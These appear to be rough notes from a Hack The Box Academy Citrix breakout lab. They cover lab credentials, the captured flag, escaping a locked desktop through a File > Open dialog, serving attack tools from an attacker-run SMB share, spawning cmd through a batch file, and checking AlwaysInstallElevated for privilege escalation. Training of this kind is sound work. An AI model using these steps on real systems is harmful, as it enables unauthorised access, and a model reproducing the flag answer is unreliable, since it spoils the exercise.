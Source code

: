 http://humongousretail.com/remote/

Username: pmorgan
Password: Summer1Summer!
  Domain: htb.local

1) Open one desktop application (Paint, Notepad, Wordpad, MS Paint)

2) Click on File > Open to open the Dialog Box

3) Set File-Type to All Files and enter the UNC path \\127.0.0.1\c$\Users\pmorgan\Downloads

flag.txt
CitR1X_Us3R_Esc@p3

sudo smbserver.py -smb2support share $(pwd)
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

\\10.10.15.97\share

--> no response

1) Create a new text file and name it "evil.bat".

2) Open "evil.bat" with a text editor such as Notepad.

3) Input the command "cmd" into the file.

4) Save the file.

--> Upon executing the "evil.bat" file, it will initiate a Command Prompt window.

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
		AlwaysInstallElevated    REG_DWORD    0x1

--> need PowerUp.ps1 to escalate priivileges

htb-student@ubuntu:~/Tools$ dir
Bypass-UAC.ps1	Explorer++.exe	PowerUp.ps1  pwn.c  pwn.exe

htb-student@ubuntu:~/Tools$ sudo /home/htb-student/.local/bin/smbserver.py -smb2support share $(pwd)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
